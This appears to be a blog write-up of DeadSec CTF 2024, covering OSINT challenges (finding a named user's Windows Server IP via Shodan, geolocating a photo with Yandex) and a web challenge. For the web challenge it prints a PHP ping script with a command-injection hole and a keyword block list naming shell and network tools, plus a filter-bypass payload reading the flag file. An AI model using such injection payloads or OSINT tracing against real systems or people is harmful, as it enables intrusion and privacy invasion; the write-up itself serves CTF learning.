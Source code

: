 ```yaml
---
title: 'DeadSec CTF 2024'
date: 2024-07-27
permalink: /posts/2024/07/deadsecctf/
tags:
  - web
  - osint
  - misc
---
```


Introduction
=====
<div style="text-align: center;">
  <img src="/images/deadsec2024.png" alt="DeadSec2024" />
</div>
DeadSec CTF 2024 is an online jeopardy-style CTF organized by DeadSec Team.
There will be challenges with a wide range of difficulty mainly from cryptography, reverse, pwn, web, misc...

***I cleared(n't) all Osint Challenge***

# Osint

* **Windows Server**
> Author: Onsra03

    This challenge provides an image
<div style="text-align: center;">
  <img src="/images/chall1-ds.png" alt="Challenge" />
</div>
<br>
We can see this image shows a login screen for **Windows Server 2008 R2 Enterprise**. It has 3 users: admin, *Leanrdo*, and guest. I focused on user `Leandro Couto Nunes` and looked at him on various popular social media sites, but there was no result. I remembered a website called [Shodan](https://www.shodan.io/) that can help me find everything related to Internet-connected devices. Finally, I found his computer's IP.
<div style="text-align: center;">
  <img src="/images/shodan-ds.png" alt="Challenge" />
</div>
<br>
<div style="text-align: center;">
  <img src="/images/rerult-chall1-ds.png" alt="Challenge" />
</div>

> FLAG: dead{187.17.201.3_abcrede provedor de internet ltda_as28265}


* **Who Is That Man?**
> Author: Onsra03

    The second challenge provides an image
<div style="text-align: center;">
  <img src="/images/chall2.png" alt="Challenge" />
</div>
<br>
We can see that this image shows a place. When I search on Google, I can't find anything related to this place, so I use [Yandex](https://yandex.com/), the best search engine in Russia, to find the most characteristic building.
<div style="text-align: center;">
  <img src="/images/colorbuilding-ds.png" alt="Challenge" />
</div>
<br>
But I can't find it because this area has many of the same buildings. I changed the target of the building to have a signboard, and here is the result:
<div style="text-align: center;">
  <img src="/images/yandex-ds.png" alt="Challenge" />
</div>
<br>
<div style="text-align: center;">
  <img src="/images/yandexmap-ds.png" alt="Challenge" />
</div>
<br>
After that, I used a Yandex map to find exactly where this picture was taken.
<div style="text-align: center;">
  <img src="/images/flag-chall2-ds.png" alt="Challenge" />
</div>
<br>
> FLAG: dead{username-in-Eng} #so lazy to translate again

> With 3 parts of Financial Supporter, which I will update later. And now, we continue to analyze some web challenges that I collected on Discord.

# Web

* **Bing2**
> Author: Onsra

    This was a web challenge. We were provided certain files for the web server, including "bing.php".
    
    ```
    <?php if (isset($_POST['Submit'])) {
	$target = trim($_REQUEST['ip']);
	$substitutions = array(
		' ' => '',
		'&'  => '',
		'&&' => '',
		'('  => '',
		')'  => '',
		'-'  => '',
		'`'  => '',
		'|' => '',
		'||' => '',
		'; ' => '',	
		'%' => '',
		'~' => '',
		'<' => '',
		'>' => '',
		'/ ' => '',
		'\\' => '',
		'ls' => '',
        'cat' => '',
        'less' => '',
        'tail' => '',
        'more' => '',
        'whoami' => '',
        'pwd' => '',
        'busybox' => '',
        'nc' => '',
        'exec' => '',
        'sh' => '',
        'bash' => '',
        'php' => '',
        'perl' => '',
        'python' => '',
        'ruby' => '',
        'java' => '',
        'javac' => '',
        'gcc' => '',
        'g++' => '',
        'make' => '',
        'cmake' => '',
        'nmap' => '',
        'wget' => '',
        'curl' => '',
        'scp' => '',
        'ssh' => '',
        'ftp' => '',
        'telnet' => '',
        'dig' => '',
        'nslookup' => '',
        'iptables' => '',
        'chmod' => '',
        'chown' => '',
        'chgrp' => '',
        'kill' => '',
        'killall' => '',
        'service' => '',
        'systemctl' => '',
        'sudo' => '',
        'su' => '',
        'flag' => '',
	);
	$target = str_replace(array_keys($substitutions), $substitutions, $target);
	if (stristr(php_uname('s'), 'Windows NT')) {
		$cmd = shell_exec('ping  ' . $target);
	} else {
		$cmd = shell_exec('ping  -c 4 ' . (string)$target);
        echo $cmd;
	}
	```
Read this source code; I realize the vulnerability here is command injection. But it has many filters; I need to bypass them. With the **space**, I can use `${IFS}` (Internal Field Separator)  to bypass; with the **cat** command, I can use `'` character inserted between letters; this bypasses the filter, but the command still executes. Finally, use the `*` which called wildcard to bypass the **flag** word. Conclusion: My payload is
>### **;c'a't${IFS}/fla***

```
POST /bing.php HTTP/2

ip=;c'a't${IFS}/fla*&Submit=Submit
```
*Remember, `submit` parameter is required*

Send request and get flag!
>Flag: DEAD{5b814948-3153-4dd5-a3ac-bc1ec706d766}